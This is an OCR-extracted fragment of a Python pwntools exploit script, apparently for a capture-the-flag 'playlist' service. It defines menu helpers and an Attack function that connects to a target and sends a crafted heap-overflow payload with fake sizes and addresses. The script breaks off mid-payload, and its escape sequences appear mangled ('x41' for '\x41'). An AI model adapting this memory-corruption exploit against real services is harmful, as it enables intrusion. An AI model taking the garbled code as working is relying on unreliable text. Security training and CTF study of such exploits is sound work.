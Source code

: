 ```
    if stop :
        raw_input()

def Multi_Attack():
    # testnokill.__main__()
    return

def import_song(sh,path):
    sh.recvuntil('Choice: ')
    sh.sendline('1')
    sh.recvuntil('Please provide the entire file path.')
    sh.send(path)

def list_playlist(sh):
    sh.recvuntil('Choice: ')
    sh.sendline('2')

def play_song(sh,index,size=None,content=None):
    sh.recvuntil('Choice: ')
    sh.sendline('3')
    sh.recvuntil('Choice: ')
    sh.sendline(str(index))
    if size:
        sleep(0.5)
        sh.sendline(str(size))
    if content:
        sleep(0.5)
        sh.send(content)

def remove_song(sh,index):
    sh.recvuntil('Choice: ')
    sh.sendline('4')
    sh.recvuntil('Choice: ')
    sh.sendline(str(index))

def Attack(sh=None,ip=None,port=None):
    if ip != None and port !=None:
        try:
            sh = remote(ip,port)
        except:
            return 'ERROR : Can not connect to target server!'
    try:
        # Your Code here
        for i in range(3,0x2E):
            import_song(sh,'Animal/animal.txt')
        import_song(sh,'Animal/'.ljust(0x18,'/'))


        import_song(sh,'Animal/blahblah.txt')  # 45
        import_song(sh,'Animal/animal.txt')    # 46

        play_song(sh,45)
        play_song(sh,46)

        remove_song(sh,45)
        remove_song(sh,46)


        play_song(sh,44,-1,'x41' * 0x660 + p64(0) + p64(0x3C0) + p64(0x404080))
        play_song(sh,43)

        fake_songs  = 'x00' * 8 + p64(0x404457) + p64(0)

```